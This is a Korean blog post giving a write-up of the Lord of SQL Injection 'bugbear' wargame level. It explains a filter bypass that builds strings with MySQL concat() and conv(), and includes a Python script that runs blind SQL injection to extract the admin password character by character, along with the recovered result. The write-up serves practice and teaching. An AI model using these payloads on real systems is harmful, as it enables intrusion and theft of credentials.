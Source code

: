 ```yaml
---
layout: post
title: LOS Bugbear 
date: 2015-10-22 18:32:00 +0900
category: Hacking
---
```

dark_knight는 0x가 먹혀서 hex로 우회 했지만 이건 다막았다. 

이걸 당시에 풀떄는 엄청나게 삽질을 했었는데 결국 찾아낸 방법은 

문자를 하나하나 진법 변환하여 붙이는 방법이었다. 

concat()은 문자를 합쳐서 문자열을 만들어 주는 함수 이고



conv()는 진법을 변환해주는 함수다





conv(초기값, 초기진수, 변환진수)이거다



10,10,36이라면



10진수 10을 36진수로 바꾸면 A

13진수 10을 36진수로 바꾸면 D 



이런식으로 admin을 문자를 만든후 합쳐주면 된다.




```
import requests
 
 
 
site=""
key=""
header={'Cookie':'PHPSESSID='}
for j in range(1,9):
        for i in range(0,36):
                
                site="http://los.sandbox.cash/chall/bugbear_b5bab623f7cba12e66b27364bedb710b.php?no=1||id/**/in/**/(CONCAT(conv(10,10,36),conv(10,13,36),conv(10,22,36),conv(10,18,36),conv(10,23,36)))%26%26if"
                site+="(mid(pw,"+str(j)+",1)in(conv("+str(i)+",10,36)),1,0)"
                
                print (site)
 
               
                r=requests.put(site,headers=header)
 
                
                if "h2>Hello admin</h2" in r.text:
                  key+="conv("+str(i)+",10,36),"
                  print ("key : %s "%key)
                  break;
```
결과값은 이렇게 나온다



이제 mysql에서 돌려서 확인해보면 된다.



conv(5,10,36),conv(2,10,36),conv(13,10,36),conv(12,10,36),conv(3,10,36),conv(9,10,36),conv(9,10,36),conv(1,10,36),



```
http://los.sandbox.cash/chall/bugbear_b5bab623f7cba12e66b27364bedb710b.php?pw=52dc3991
```





소문자로 바꿔서 해주면 된다. 



출처 : http://unknown84.tistory.com/17











